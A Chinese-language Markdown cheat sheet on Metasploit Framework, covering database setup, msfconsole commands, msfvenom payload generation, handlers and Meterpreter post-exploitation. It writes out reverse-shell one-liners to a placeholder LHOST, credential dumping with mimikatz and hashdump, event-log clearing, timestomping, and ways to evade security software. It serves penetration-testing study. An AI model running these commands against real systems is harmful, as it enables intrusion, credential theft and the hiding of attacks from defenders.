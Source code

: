 # Metasploit

该工具存在免费版本 Metasploit Framework 和付费版本 Metasploit Pro, 后者提供了许多实用的专业功能, 但是天价. 以下内容均以 Metasploit Framework(MSF) 为例.  

## 数据库

初次使用 MSF 时可以利用 [msfdb](https://docs.metasploit.com/docs/using-metasploit/intermediate/metasploit-database-support.html) 对数据库进行自动初始化, 若自动初始化失败则进行[手动初始化](https://docs.rapid7.com/metasploit/managing-the-database/). 仅支持 [PostgreSQL](https://www.postgresql.org/) 数据库.  

```sh
# Arch/Manjaro
sudo pacman -S postgresql                      # 安装数据库
sudo systemctl enable --now postgresql.service # 启用数据库服务
sudo systemctl status postgresql.service       # 检查数据库服务状态

msfdb status # 检查数据库服务状态, 包括监听端口
msfdb init   # 初始化数据库
```

其中启动数据库服务和初始化数据库的步骤容易出现错误, 根据提示信息进行故障排除即可.  
启动 msfconsole 后可以通过 `db_status` 检查数据库连接状态.  

之后便可以使用数据库相关指令, 关键信息(如主机/服务/漏洞/战利品)会被记录到数据库中以便后续查询.  

## 快速入门

```sh
# 数据库/工作区
msf > workspace [name]             # 切换工作区
msf > workspace -a [name]          # 添加工作区
msf > db_nmap [...]                # 调用 nmap 进行扫描, 比将结果保存到当前工作区
msf > db_export -f [format] [file] # 将当前工作区中的数据以指定格式(通常是 xml)导出到文件中, 导出结果可能为空, 需要进行检查

# 查找/选择 module
msf > search [[type:]keyword] # 搜索 module
msf > use [id/module]         # 使用 module, module 的名称或 search 指令结果中的 id
msf > use [id/module]         # 显示 module 的详细信息.
msf > setg [option] [value]   # 设置默认选项, 避免切换 module 时重复填写不变的参数

# 使用 module
msf(module) > options                 # 显示当前 module 的选项
msf(module) > info                    # 显示当前 module 的详细信息
msf(module) > show [option]           # 显示选项的可用选项
msf(module) > set [option] [id/value] # 设置选项, 选项的值或 show 指令结果中的 id
msf(module) > check                   # 部分 exploit module 支持, 用于验证 RHOSTS 是否可以被利用
msf(module) > run                     # 执行 module

# 会话管理
msf > sessions         # 列出会话, -l
msf > sessions [id]    # 打开会话, -i
msf > sessions -u [id] # 将 shell 升级到 meterpreter

# 故障排除
msf > setg LogLevel 5          # 日志详细等级, 范围 1-5
cat ~/.msf6/logs/framework.log # 查看日志
msf > debug                    # 显示诊断信息, 在故障发生后使用
```

## 载荷

**别名**: 攻击载荷, 有效载荷.  

MSF 中的载荷(payload)共有以下三种:  

- Singles: 包含完整的功能, 不依赖 MSF, 因此不需要通过 exploit/multi/handler 来建立连接.
- Stagers: 小巧可靠, 用于建立连接并接收 Stages.
    - bind: 正向连接, MSF 主动尝试与目标中的 stager 建立连接.
    - reverse: 反向连接, 目标中的 stager 尝试与 MSF 连接. 可以绕过部分防火墙规则.
    - https: 伪装成正常 HTTPS 流量进行通讯. 可以绕过部分防火墙规则且更难被探测器识别.
- Stages: 无大小限制, 包含高级功能.

在遇见 "载荷" 一词时应结合上下文推断具体含义.  
命名规则是 `<platform>/[arch]/<single>` 和 `<platform>/[arch]/<stage>/<stager>`, 比如 `windows/x64/meterpreter/reverse_tcp` 就代表 Windows 下使用 x64 指令集编写的使用 tcp 协议反向建立连接的 stager, 用于接收 meterpreter 这个 stage.  

## 生成载荷

使用 msfvenom(msfpayload 和 msfencode 的替代品) 来生成载荷, 详情请参考[官方教程](https://docs.metasploit.com/docs/using-metasploit/basics/how-to-use-msfvenom.html).  
需要根据具体情况(包括漏洞利用方式, 架构, 系统, 环境, 通讯方式等)选择合适的载荷/编码器/格式等其他参数.  

```sh
msfvenom -p windows/x64/meterpreter/reverse_tcp_rc4 LHOST=[LHOST] LPORT=[LPORT] rc4password=[password] -f exe -o ~/payload.exe
msfvenom -p windows/x64/meterpreter/reverse_tcp     LHOST=[LHOST] LPORT=[LPORT]                        -f exe -o ~/payload.exe
msfvenom -p linux/x64/meterpreter/reverse_tcp       LHOST=[LHOST] LPORT=[LPORT]                        -f elf -o ~/payload

msfvenom -l payload # 查看载荷, 根据目标进行选择
msfvenom -l format  # 查看格式, 可以是可执行文件/脚本, 也可以只是用于源代码的 shellcode 代码片段
```

除了上传可执行文件到目标并执行, 也可以直接利用目标上的命令来获取 shell, 然后再将 shell 升级为 meterpreter.  

```sh
bash -i >& /dev/tcp/[LHOST]/[LPORT] 0>&1
nc [LHOST] [LPORT] -e /bin/sh
```

选择 shell_reverse_tcp 作为载荷并建立连接.  

## 建立连接

使用 handler 来与目标中的 stager 建立连接, 并上传 stage.  

```sh
msf > use exploit/multi/handler
msf > set payload [id/value]
# ... 设置载荷中的参数 ...
msf > set ExitOnSession false # 建立连接后不结束监听
msf > run -j                  # 开始监听并作为后台任务运行, 因为这是一个堵塞操作
```

## [Meterpreter](https://github.com/rapid7/metasploit-payloads)

Meterpreter 是一种特殊的多功能载荷, 可以动态加载/执行/卸载脚本和插件, 充分利用其功能可以使后渗透攻击变得十分方便.  
以下列举几个常用功能:  

```sh
# 权限提升
meterpreter > getsystem [...]   # 自动提权
meterpreter > steal_token [pid] # 通过窃取拥有更高权限的进程的令牌提权

# 获取密码
meterpreter > load mimikatz                          # 载入 mimikatz
meterpreter > run post/windows/gather/smart_hashdump # 导出账户密码 hash

# 清除痕迹
meterpreter > clearev         # 清除应用/系统/安全日志
meterpreter > timestomp [...] # 编辑文件属性(包括创建/最后修改时间)

# 使用 module
meterpreter > search type:post  # 列出 post module
meterpreter > run [module]      # 执行 module, 主要位于 "post/[system]" 下
```

## 故障排除

- Meterpreter 会话意外关闭, 返回原因 Died / exploit/multi/handler 无法和目标建立连接 / 目标上的接收器发生段错误, 可能是又以下几个原因导致的:  

    - MSF 和 Meterpreter 的版本不兼容: 解决方法是确保版本相同.
    - 载荷不匹配: 该问题会导致目标上的 Stagers 发生段错误, exploit/multi/handler 中设置的载荷(类型/系统/架构)与目标上期待的不一致, 解决方法是确保载荷一致.
    - 被安全软件终止: 该问题会导致会话成功建立却意外关闭, 可能的解决方法有:  

        1. 转移进程: 通过 `set AutoRunScript "migrate -n explorer.exe"` 在链接建立后立即转移到其他进程, 以规避安全软件的检测.
        2. 混淆: 生成载荷时使用编码器混淆并加密代码, 以规避安全软件对内存中代码的特征检测. 或通过 `set EnableStageEncoding true` 对发送的 stage 进行编码, 以规避安全软件对流量特征的识别.

- msfdb 初始化数据库失败. 可以使用下面的源安装 `msfdb-blackarch`:  

    ```
    [blackarch]
    SigLevel = Optional TrustAll
    Server = https://mirrors.ustc.edu.cn/blackarch/$repo/os/$arch
    ```

## 拓展

- [Metasploit Documentation](https://docs.metasploit.com/)
- <https://www.kali.org/docs/tools/starting-metasploit-framework-in-kali/>
- [mimikatz](https://github.com/ParrotSec/mimikatz)

## 参考

- <https://www.offensive-security.com/metasploit-unleashed/payloads/>
